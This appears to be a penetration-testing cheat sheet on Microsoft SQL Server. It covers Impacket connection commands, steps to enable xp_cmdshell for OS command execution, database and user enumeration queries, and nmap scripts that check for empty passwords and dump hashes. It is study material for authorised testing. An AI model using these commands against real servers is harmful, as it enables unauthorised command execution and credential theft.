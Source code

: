 # Microsoft SQL Server (MSSQL)

Default port: 1433


Is a database management system that natively integrates into the Windows ecosystem.

A built-in command-line tool named `SQLCMD` allows SQL queries to be run through the Windows command prompt or even remotely from another machine.


## Resources
- <https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tds/893fcc7e-8a39-4b3c-815a-
773b7b982c50/>
- <https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server>
- <https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet>










## Impacket
- <https://github.com/SecureAuthCorp/impacket>

Kali Linux includes `Impacket`, a Python framework that enables network protocol interactions. Among many other protocols, it supports Tabular Data Stream (TDS), the protocol adopted by MSSQL that is implemented in the `impacket-mssqlclient` tool.

We can run `impacket-mssqlclient` to connect to the remote Windows machine running MSSQL by providing a username, a password, and the remote IP, together with the `-windows-auth` keyword. This forces NTLM authentication (as opposed to Kerberos).
```
impacket-mssqlclient [USER]:[PASSWORD]@[IP] -windows-auth
```


MSSQL has a system stored procedure to execute operating system commands: `xp_cmdshell`, which takes a string and passes it to a command shell for execution. The function returns any output as rows of text.
This stored procedure is disable by default, but can be enabled remotely if the user has sufficient permissions.
Once enabled, it must be called with the EXECUTE keyword instead of SELECT.


- <https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-
sql?view=sql-server-ver15>

```
# 1 - enable show advanced options
EXECUTE sp_configure 'show advanced options', 1;

# 2 - apply the changes to the running configuration
RECONFIGURE;

# 3 - enable xp_cmdshell 
EXECUTE sp_configure 'xp_cmdshell', 1;

# 4 - apply the configuration again
RECONFIGURE;

# 5 - we can execute any Windows shell command through the EXECUTE statement followed by the feature name
EXECUTE xp_cmdshell 'whoami';

```



## Commands

When using a SQL Server command line tool like `sqlcmd`, we must submit our SQL statement ending with a `;` followed by `GO` on a separate line. However, when running the command remotely, we can omit the `GO` statement since it's not part of the MSSQL TDS protocol.




```
# inspect the current version of the underlying operating system8
SELECT @@version;


# To list all the available databases, we can select all names from the system catalog.
# master, tempdb, model  and msdb are default databases
SELECT name FROM sys.databases;


# review database by querying the tables table in the corresponding information_schema
SELECT * FROM [DATABASE NAME].information_schema.tables;


select * from offsec.dbo.users;
select * from master.dbo.sysusers;


```




`dbo` stands for DataBase Owner.
Microsoft introduced schema in version 2005. For those who didn’t know about schema, and those who didn’t care, objects were put into a default schema `dbo`.

See:

- <https://stackoverflow.com/questions/1062075/why-do-table-names-in-sql-server-start-with-dbo>










### check what is the role we have in the server
`SELECT is_srvrolemember('sysadmin');`


What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?
`xp_cmdshell`

Check if the xp_cmdshell is already activated by issuing the first command:
`EXEC xp_cmdshell 'net user'`
`EXEC xp_cmdshell 'whoami'`


If xp_cmdshell is not activated (turned off) we will need to proceed with the activation as follows:
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; -- Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE
```

On MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:

```
EXEC xp_cmdshell 'net user';
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```





## Tools

### nmap
```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```


### Metasploit
```
msf> use auxiliary/scanner/mssql/mssql_ping
```